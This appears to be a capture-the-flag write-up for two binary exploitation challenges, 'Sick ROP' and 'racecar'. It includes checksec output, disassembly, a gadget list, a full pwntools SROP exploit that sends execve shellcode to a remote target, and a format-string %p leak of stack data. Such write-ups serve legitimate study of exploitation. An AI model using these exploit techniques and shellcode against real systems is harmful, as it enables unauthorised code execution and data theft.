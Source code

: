 # Sick ROP

First I look what `file` are we dealing with and see that this one is statically compiled.
`sick_rop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped`

Then I run checksec to see it's mitigations.

```
└─$ checksec --file=sick_rop  
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY  Fortified  Fortifiable  FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   10 Symbols        No     0          0            sick_rop
```

Spotting a buffer overflow immediately (the function puts 0x300 bytes on the stack but 0x20 bytes are reserved for our buffer.

```
000000000040102e <vuln>:
  40102e:       55                      push   rbp
  40102f:       48 89 e5                mov    rbp,rsp
  401032:       48 83 ec 20             sub    rsp,0x20
  401036:       49 89 e2                mov    r10,rsp
  401039:       68 00 03 00 00          push   0x300
  40103e:       41 52                   push   r10
  401040:       e8 bb ff ff ff          call   401000 <read>
  401045:       50                      push   rax
  401046:       41 52                   push   r10
  401048:       e8 ca ff ff ff          call   401017 <write>
  40104d:       c9                      leave
  40104e:       c3                      ret
```

As the name of this challenge suggest, there might be some ROP gadget building for this (since NX is enabled as well) so let's get into it.

Checking the gadgets available for this challenge that we have (`read`, `write`, `syscall`, `ret`).

```
0x0000000000401012 : and al, 0x10 ; syscall
0x000000000040100d : and al, 8 ; mov rdx, qword ptr [rsp + 0x10] ; syscall
0x0000000000401044 : call qword ptr [rax + 0x41]
0x000000000040104c : dec ecx ; ret
0x000000000040100c : je 0x401032 ; or byte ptr [rax - 0x75], cl ; push rsp ; and al, 0x10 ; syscall
0x0000000000401023 : je 0x401049 ; or byte ptr [rax - 0x75], cl ; push rsp ; and al, 0x10 ; syscall
0x0000000000401054 : jmp 0x40104f
0x000000000040104d : leave ; ret
0x0000000000401010 : mov edx, dword ptr [rsp + 0x10] ; syscall
0x000000000040100b : mov esi, dword ptr [rsp + 8] ; mov rdx, qword ptr [rsp + 0x10] ; syscall
0x000000000040100f : mov rdx, qword ptr [rsp + 0x10] ; syscall
0x000000000040100e : or byte ptr [rax - 0x75], cl ; push rsp ; and al, 0x10 ; syscall
0x0000000000401011 : push rsp ; and al, 0x10 ; syscall
0x0000000000401016 : ret
0x0000000000401049 : retf 0xffff
0x0000000000401014 : syscall
```

I was quite unsure at the first but then I looked into it and found out we can do SROP with these instead.
In SROP there is a `sys_rt_sigreturn` syscall that restores stack frame into registers.
Storing this we can call `mprotect`, rewrite permissions for stack execution and get a shell.	

Using [rchapman's syscall table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) as a reference for building a shellcode for `sys_rt_sigreturn` (rax = 0xf) and `sys_mprotect`.


Since we have plenty space for this we will craft the payload for overwriting `$RIP`
> offset + vuln_addr + syscall_ret + frame_padding
and then call `sys_rt_sigreturn`.

This configuration will now call `vuln()` function, add 0x15 (that should be in `$RAX` for this syscall to work properly). Reset the previously stored register configuration back and finally `syscall; ret`.

Adjusting correct offsets for overflowing the right bytes and then for the shellcode use `execve(/bin/bash)`

```
#!/usr/bin/env python3
import sys
from pwn import *

context.binary = 'sick_rop'
elf = context.binary
rop = ROP(elf)
p = remote(sys.argv[1], sys.argv[2])

f = SigreturnFrame()
f.rax = 10            # sys_mprotect
f.rdi = elf.address
f.rsi = 0x4000        # size
f.rdx = 0b111         # rwx
f.rsp = 0x4010d8
f.rip = rop.find_gadget(['syscall', 'ret'])[0] # syscall ret;

payload  = b'A' * 40
payload += p64(elf.symbols.vuln)
payload += p64(rop.find_gadget(['syscall', 'ret'])[0] ) # syscall ret;
payload += bytes(f)

p.sendline(payload)
p.recv()

p.send(b'A' * 15) # sys_rt_sigreturn
p.recv()

shellcode = (b'\x48\x31\xf6\x56\x48\xbf\x2f\x62'
             b'\x69\x6e\x2f\x2f\x73\x68\x57\x54'
             b'\x5f\x6a\x3b\x58\x99\x0f\x05')
payload = b'A' * 40 + p64(0x4010e8) + shellcode
p.send(payload)
p.recv()

print(p.interactive())

```

# racecar

```
└─$ file racecar                                
racecar: ELF 32-bit LSB pie executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c5631a370f7704c44312f6692e1da56c25c1863c, not stripped
```

```
└─$ checksec --file=racecar         
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY  Fortified  Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   96 Symbols      No       0  	    3 		 racecar
```

Since all mitigations are enabled I am just looking for any leaks and I find `fgets`.

```
...
char buf[0x2c];
fgets(&buf, 0x2c, fp);
read(0, eax_71, 0x170);
puts("\n\x1b[3mThe Man, the Myth, the …");
result = printf(eax_71);
```
There is a specific combination of inputs to reach this part of the code after running the binary:
any, any, 2, 2, 1
You need to create `flag.txt` locally to bypass the `if` above this code, then you are prompted with input for `fgets`. Here I leak pointer addresses with `%p` because the flag is on the stack.

```
[!] Do you have anything to say to the press after your big victory?                                                
>  %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
 0x584e3200 0x170 0x5662fdfa 0x11 0x3 0x26 0x2 0x1 0x5663096c 0x584e3200 0x584e3380 0x56630540 0x56630538 0xf7d6ee55 0x700f900 0x56630d58 0x56632f8c 0xff824128 0x5663038d 0x56630540 0x584e31a0 0x2 0x700f900 (nil) 0x56632f8c 0xff824148 0x56630441 (nil) (nil) (nil) 0x700f900 0xff824160 0xf7f47e14 (nil) 0xf7d39cc3 (nil) 0xff824214 0xf7d53029 0xf7d39cc3 0x1 0xff824214 0xff82421c 0xff824180 0xf7f47e14 0x566303e1 0x1 0xff824214 0xf7f47e14 0x56630490 0xf7fabb60 (nil) 0x163b73a2 0xb580b5b2 (nil) (nil) (nil) 0xf7fabb60 (nil) 0x700f900 0xf7faca60 0xf7d39c56 0xf7f47e14 0xf7d39d88 0xf7f76ac4 0x8 (nil) (nil) (nil) (nil) 0xf7d39d09 0x56632f8c 0x1
```

The just read it with correct endianness and convert to ASCII.




